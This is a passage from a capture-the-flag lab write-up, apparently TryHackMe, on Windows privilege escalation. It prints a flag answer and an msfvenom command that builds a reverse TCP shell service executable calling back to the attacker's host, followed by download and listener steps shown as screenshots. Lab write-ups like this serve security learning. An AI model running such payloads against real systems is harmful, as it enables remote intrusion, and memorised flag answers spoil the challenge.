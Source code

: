     * Get the shell and flag

        ![task4-flag7](./images/task4-flag7.png)


* Insert flag8 here

    `THM{IN_PLAIN_SIGHT}`

    * Create payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=6666 -f exe-service -o rev-svc2.exe
        ```

        ![task4-payload2](./images/task4-payload2.png)

    * Download payload to target machine

        ![task4-download2](./images/task4-download2.png)

    * Setup listener on our machine

        ![task3-listener4](./images/task3-listener4.png)
